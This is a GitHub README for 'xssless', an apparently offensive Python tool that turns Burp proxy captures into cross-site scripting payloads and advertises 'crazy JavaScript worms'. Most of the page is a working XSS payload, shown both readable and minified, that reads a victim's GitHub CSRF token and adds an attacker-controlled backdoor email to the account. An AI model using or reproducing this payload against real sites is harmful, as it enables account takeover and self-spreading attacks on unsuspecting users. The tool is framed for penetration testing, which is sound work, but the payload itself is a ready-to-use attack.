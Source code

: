 xssless
======

An automated XSS payload generator written in python.

Usage
-----

1. Record request(s) with [Burp proxy](http://portswigger.net/burp/proxy.html)
2. Select request(s) you want to generate, then right click and select "Save items"
3. Use xssless to generate your payload: `./xssless.py burp_export_file`
4. Pwn!

Features
--------
* Automated XSS payload generation from imported Burp proxy requests
* Payloads are 100% asynchronous and won't freeze the user's browser
* CSRF tokens can be easily extracted and set via the -p option
* Crazy JavaScript worms with no hassle!

Upcoming
--------
* POST multipart support for file uploads via XSS
* Self POSTing for propagating script itself

Installation
------------

If you don't have BeautifulSoup installed:

`pip install beautifulsoup4`

Download the latest xssless:

`git clone https://github.com/mandatoryprogrammer/xssless`

Run the script:

`./xssless.py -h`

Example Payload
---------------

This is an example XSS payload output (unminimized) for my github that would add an extra email to my account (backdoor@yopmail.com)

```html
<script type="text/javascript">
    var funcNum = 0;
    function doRequest(url, method, body)
    {
        var http = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
        http.withCredentials = true;
        http.onreadystatechange = function() {
            if (this.readyState == 4) {
                var response = http.responseText; 
                var d = document.implementation.createHTMLDocument("");
                d.documentElement.innerHTML = response;
                requestDoc = d;
                funcNum++;
                try {
                    window['r' + funcNum](requestDoc);
                } catch (error) {}
            }    
        };
        if(method == "POST")
        {
            http.open('POST', url, true);
            http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            http.setRequestHeader('Content-length', body.length);
            http.setRequestHeader('Connection', 'close');
            http.send(body);
        } else if (method == "GET") {
            http.open('GET', url, true); 
            http.send();
        } else if (method == "HEAD") {
            http.open('HEAD', url, true); 
            http.send();
        }
    }
    r0();
    function r0(requestDoc){
        doRequest('https://github.com/settings/profile', 'GET', '');
    }

    function r1(requestDoc){
        doRequest('https://github.com/users/mandatoryprogrammer/emails', 'POST', 'authenticity_token=' + encodeURIComponent(requestDoc.getElementsByName('authenticity_token')[0].value) + '&user_email%5Bemail%5D=backdoor%40yopmail.com');
    }

</script>
```

The compressed payload
```html
<script type="text/javascript">
function doRequest(e,t,n){var r=window.XMLHttpRequest?new XMLHttpRequest:new ActiveXObject("Microsoft.XMLHTTP");r.withCredentials=true;r.onreadystatechange=function(){if(this.readyState==4){var e=r.responseText;var t=document.implementation.createHTMLDocument("");t.documentElement.innerHTML=e;requestDoc=t;funcNum++;try{window["r"+funcNum](requestDoc)}catch(n){}}};if(t=="POST"){r.open("POST",e,true);r.setRequestHeader("Content-type","application/x-www-form-urlencoded");r.setRequestHeader("Content-length",n.length);r.setRequestHeader("Connection","close");r.send(n)}else if(t=="GET"){r.open("GET",e,true);r.send()}else if(t=="HEAD"){r.open("HEAD",e,true);r.send()}}function r0(e){doRequest("https://github.com/settings/profile","GET","")}function r1(e){doRequest("https://github.com/users/mandatoryprogrammer/emails","POST","authenticity_token="+encodeURIComponent(e.getElementsByName("authenticity_token")[0].value)+"&user_email%5Bemail%5D=backdoor%40yopmail.com")}var funcNum=0;r0()
</script>
```

Contributing
------------

Want to contribute some code to this project? Great! I'm not the best at Python or Javascript so I appreciate any additions to the project. Contributions can also be in the form of new feature ideas, if you've got one let me know!

The Joke
--------

Just to point out, the joke in the name here is really to xss-LESS, ie. stop putting so much time into building payloads! Not to be without XSS which would be a sad state indeed (well, for the pentester anyways!).

